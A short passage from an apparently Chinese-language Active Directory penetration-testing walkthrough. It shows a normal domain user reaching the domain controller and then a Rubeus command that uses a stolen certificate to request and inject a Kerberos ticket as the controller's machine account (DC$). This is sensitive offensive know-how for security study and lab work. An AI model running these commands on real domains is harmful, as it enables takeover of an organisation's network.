 [![](assets/1701606771-274d9123ae3361ac3ae4bcd3495db26f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144503-03a8b6fc-7c70-1.png)  
Step 6：在域内主机 Win08-Server 上使用普通域用户登录并访问域控  
[![](assets/1701606771-01c1527b8422d965bc338a6a98fdfe69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144513-09649340-7c70-1.png)  
Step 7：利用上面获取到的证书，获取 TGT 并注入

```bash
#格式：
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt

#示例：
Rubeus.exe asktgt /user:DC$ /certificate:打印出来的 base64 证书数据 /ptt
```
